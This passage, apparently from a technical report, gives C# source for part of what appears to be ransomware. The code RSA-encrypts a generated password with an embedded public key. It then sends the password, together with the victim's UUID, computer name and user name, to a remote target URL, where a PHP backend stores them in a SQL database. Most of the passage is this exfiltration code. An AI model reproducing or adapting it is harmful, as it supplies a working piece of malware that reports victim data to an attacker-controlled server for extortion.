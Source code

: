 \begin{lstlisting}[frame=single, showstringspaces=false] 

         public static string EncryptPassword(string password)
        {
            string ServerPubKeyOutput = "-----BEGIN PUBLIC KEY-----MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDbv/DGt9yCE8F93pcZatx/Uuef7m/ztRSrrS2p99Fl554/7XzGmktS3ArxyZOaz0rdhkdaZxzvZ6g8Ip0uBzTDcI5heVz3Ek0aCxIAiFZh/ScrtjIXg+JERty9cYZ6aBhMWn9tXEWWMOzYlumT6MpAdE8fzr1DTQqKpoSL0aDrAwIDAQAB-----END PUBLIC KEY-----";
           
            string ServerPubKey = Javascience.opensslkey.DecodePEMKey(ServerPubKeyOutput);

            RSACryptoServiceProvider ServerRSA = new RSACryptoServiceProvider();
            ServerRSA.FromXmlString(ServerPubKey);
            string SecretPassword = Uri.EscapeDataString(Convert.ToBase64String(RSAEncrypt(Encoding.UTF8.GetBytes(password), ServerRSA.ExportParameters(false))));
            
            return SecretPassword;

        }
        

        //Sends created password target location
        public void SendPassword(string password){
            
            string Encryptedpassword = EncryptPassword(password);
            string info = UUID + "|" + computerName + "|" + userName + "|" + Encryptedpassword;
            var fullUrl = targetURL + info;
            var conent = new System.Net.WebClient().DownloadString(fullUrl);
        }

\end{lstlisting}

The sent password gets stored in a SQL-database together with the Computername, Username and UUID. We use the UUID as primary key. The backend is written in PHP.
For easy-reading during the development and testing we also wrote all the information to a hidden txt-file in human readable format.

